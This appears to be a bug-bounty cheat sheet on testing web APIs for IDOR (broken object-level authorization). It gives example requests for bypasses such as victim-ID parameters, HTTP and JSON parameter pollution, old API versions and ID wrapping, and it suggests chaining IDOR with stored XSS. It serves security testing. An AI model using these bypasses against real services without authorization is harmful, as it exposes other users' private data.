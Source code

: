 ## Testing for IDOR/Broken object level authorization:

Difficulty: Easy 

Tips: Don't blindly test for changing numbers till you get PII, tools can do this for you

**Finding IDOR Attack Vectors Ideas:**

1. What  do they use for authorization?(JWT, API Keys, cookies, tokens) Tip: Find this out by replacing high privaledge authorization with lower privaledge authorization and seeing what the server responds with
2. Understand how they use ID's, hashes, and their API. Do this by looking at the API Documentations if they have one.

***Every time you see a new API endpoint that receives an object ID from the client, ask yourself the following questions:***

- Does the ID belong to a private resource? (e.g /api/user/123/news vs  /api/user/123/transaction)
- What are the IDs that belong to me?
- What are the different possible roles in the API?(For example — user, driver, supervisor, manager)

## Bypassing Object Level Authorization:

- Add parameters onto the endpoints for example, if there was

```html
GET /api_v1/messages --> 401
vs 
GET /api_v1/messages?user_id=victim_uuid --> 200
```

- HTTP Parameter pollution

```html
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK

GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

- Add .json to the endpoint, if it is built in Ruby!

```html
/user_data/2341 --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

- Test on outdated API Versions

```html
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
```

* Wrap the ID with an array.

```html
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

* Wrap the ID with a JSON object:

```html
{“id”:111} --> 401 Unauthriozied

{“id”:{“id”:111}} --> 200 OK
```

* JSON Parameter Pollution:

```html
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```

- Try to send a wildcard(*) instead of an ID. It’s rare, but sometimes it works.
- If it is a number id, be sure to test through a large amount of numbers, instead of just guessing
- If endpoint has a name like /api/users/myinfo, check for /api/admins/myinfo
- Replace request method with GET/POST/PUT
- Use burp extension autorize
- If none of these work, get creative and ask around!

## Escalating/Chaining with IDOR's Ideas:

1.  Lets say you find a low impact IDOR, like changing someone elses name, chain that with XSS and you have stored XSS!
2. If you find IDOR on and endpoint, but it requires UUID, chain with info disclosure endpoints that leak UUID, and bypass this!
3. If none of these work, get creative and ask around!

### Reference
[https://twitter.com/swaysThinking/status/1301663848223715328](https://twitter.com/swaysThinking/status/1301663848223715328)

### Author
* [@harsha0x01](https://twitter.com/harsha0x01)
